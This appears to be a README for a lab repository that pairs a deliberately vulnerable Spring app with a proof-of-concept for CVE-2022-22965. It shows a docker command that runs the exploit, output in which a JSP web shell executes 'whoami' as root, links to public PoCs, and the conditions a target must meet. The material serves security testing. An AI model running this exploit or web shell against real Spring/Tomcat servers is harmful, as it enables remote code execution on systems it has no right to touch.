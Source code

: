 CVE-2022-22965 - vulnerable app and PoC
---------------------------------------

Trial & error:
```sh
docker rm -f rce; docker build -t rce:latest . && docker run -d -p 8080:8080 --name rce rce:latest && sleep 5 && python poc.py
```


Output example:
```
rce
sha256:f626a2190dc0790c610afd4f12a4b2482b6a726d671fdac1432275de89c07cd6
1a048e5725f754d331de9491d0750c4c7a163472dea1fd1554edccfd00d7f6e5
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```


Sources:
  - https://twitter.com/vxunderground/status/1509170582469943303 / https://github.com/craig/SpringCore0day
  - https://github.com/fengguangbin/spring-rce-war


Vulnerable app requirements[^1]:
- JDK 9 or above
- Standalone Tomcat (no Embedded Tomcat) with WAR deployment
- Any Spring version before 5.3.18 / 5.2.20 (Spring Boot before 2.5.12)
- No blocklist on WebDataBinder / InitBinder
- Parameter bind with POJOs directly (no @RequestBody, @RequestQuery, etc.)
- Writeable file system (e.g webapps/ROOT)

[^1]: Assuming exploits similar to the known PoCs. There might be other gadgets...
